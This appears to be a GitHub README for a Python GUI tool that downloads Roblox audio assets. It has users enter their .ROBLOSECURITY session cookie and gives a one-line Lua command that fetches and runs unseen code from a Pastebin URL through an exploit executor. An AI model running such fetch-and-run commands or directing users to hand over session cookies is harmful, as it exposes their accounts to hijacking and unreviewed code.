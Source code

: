 # Roblox Audio Fetcher Downloader

A GUI tool to download audio assets from Roblox.

> **Note:** We recommend using a Roblox alternate account (alt) and its corresponding `.ROBLOSECURITY` cookie to avoid potential security and privacy risks.

> **For Roblox Script Execution:**
> If you'd like to use this script, you can execute the provided Lua script in your game. Use the following command in any roblox exploit executor:
>
> ```lua
> loadstring(game:HttpGet('https://pastebin.com/raw/v7Usg709', true))()
> ```
>
> If you have concerns about the script's safety, you can visit the [Pastebin URL](https://pastebin.com/raw/v7Usg709) directly to review the code. 

> **Need Help?**
> If you require assistance or have questions about using the tool, refer to the detailed instructions provided in the [howto.txt](howto.txt) file.

> The Place Id as to have Audio Id/Asset Id connected to the place id

> Here is a Video Tutorial: https://www.youtube.com/watch?v=7jmCUQoU7ac

## Usage

1. Clone or download the repository.

2. Install the required Python packages: ```pip install requests```
  
3. Run the audio.py script using Python: ```python audio.py```

4. Enter your Roblox cookie (.ROBLOSECURITY) and the target place ID in the GUI.

5. Choose a text file containing a list of asset IDs separated by commas.

6. Click the "Download All Audio Files" button to start downloading.

7. Downloaded audio assets will be stored in the audio_files folder.

   # Requirements
Python 3.x
Tkinter (usually included with Python)
Requests library

# License
This project is licensed under the MIT License.
